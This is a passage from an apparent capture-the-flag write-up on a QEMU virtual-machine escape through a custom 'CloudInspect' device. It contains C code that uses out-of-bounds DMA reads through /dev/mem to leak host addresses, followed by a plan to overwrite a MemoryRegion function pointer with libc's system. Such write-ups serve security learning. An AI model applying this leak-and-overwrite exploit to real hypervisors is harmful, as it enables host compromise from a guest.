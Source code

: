 ```c
}

void read_from_dma_buf(volatile void* mem, u64 local_phys, u64 size, u64 off) {
	write_cnt(mem, size);
	write_dst(mem, local_phys);
	write_src(mem, off);
	read_trigger(mem);
}

int main() {
	int fd;
	volatile void* mem;
	volatile void* buf;
	u64 buf_phys;
	u64 i;

	fd = open("/dev/mem", O_RDWR | O_SYNC);
	if (fd < 0)
		err(EXIT_FAILURE, "open");
	mem = map_device(fd);

	buf_phys = virt2phys(buf);
	for (i = 0; i < 100; ++i) {
		read_from_dma_buf(mem, buf_phys, sizeof(u64), DMA_SIZE + (i * 8));
		printf("%lu: 0x%lx\n", i, *(volatile u64*)buf);
	}
	
	unmap_device(mem);
	close(fd);
	return EXIT_SUCCESS;
}
```

We found the 7th value to be a reliable leak off of which we can calculate the address of any function as an offset of it. However, this leak will not work with heap addresses, as the heap's base address is randomized for every execution, and it is not mapped at a constant offset from the executable regions in the process. We were not able to get a reliable leak for the heap both locally and remotely, so we resorted to avoid them.

Our strategy at this point is to overwrite a function pointer with the address of libc's `system` function; ideally we should also be able to control its first parameter.

`CloudInspectState` has a field called `mmio`, which has the type `MemoryRegion`. We can take a look at this structure's layout within [qemu's source code](https://github.com/portante/qemu/blob/815dac6c784db31a6cbef06ee3037cd3eb49812a/memory.h#L119):

```c
struct MemoryRegion {
    const MemoryRegionOps *ops;
    void *opaque;
    /* snip */
};
```
